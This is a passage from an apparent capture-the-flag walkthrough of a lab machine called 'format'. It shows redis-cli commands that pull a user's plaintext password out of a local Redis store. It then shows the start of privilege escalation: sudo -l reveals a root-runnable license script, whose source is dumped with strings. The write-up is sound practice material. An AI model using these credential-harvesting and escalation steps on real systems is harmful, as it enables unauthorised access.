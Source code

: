 ```

www-data@format:/dev/shm$ redis-cli -s /var/run/redis/redis.sock
redis /var/run/redis/redis.sock> keys *
...
7) "cooper.dooper"
...

redis /var/run/redis/redis.sock> HGET cooper.dooper password
"zooperdoopercooper"

```

Boom! Cooper's password.

### Privilege Escalation

When running `sudo -l` we can see the following:

```

cooper@format:~$ sudo -l                                                                                                                      
Matching Defaults entries for cooper on format:                                                                                               
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin                                    
                                                                                                                                              
User cooper may run the following commands on format:                                                                                         
    (root) /usr/bin/license

```

we can see we have root permissions on a binary called `license`, I ran `file` on the bin and found: `usr/bin/license: Python script, ASCII text executable`. Ok so it's a python script we can run `strings` and see the full source code:

```

cooper@format:~$ strings /usr/bin/license
#!/usr/bin/python3
import base64
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.kdf.pbkdf2 import PBKDF2HMAC
from cryptography.fernet import Fernet
import random
import string
from datetime import date
import redis
import argparse
import os
import sys
class License():
    def __init__(self):
        chars = string.ascii_letters + string.digits + string.punctuation
        self.license = ''.join(random.choice(chars) for i in range(40))
        self.created = date.today()
if os.geteuid() != 0:
    print("")
    print("Microblog license key manager can only be run as root")
    print("")
    sys.exit()
parser = argparse.ArgumentParser(description='Microblog license key manager')
group = parser.add_mutually_exclusive_group(required=True)
```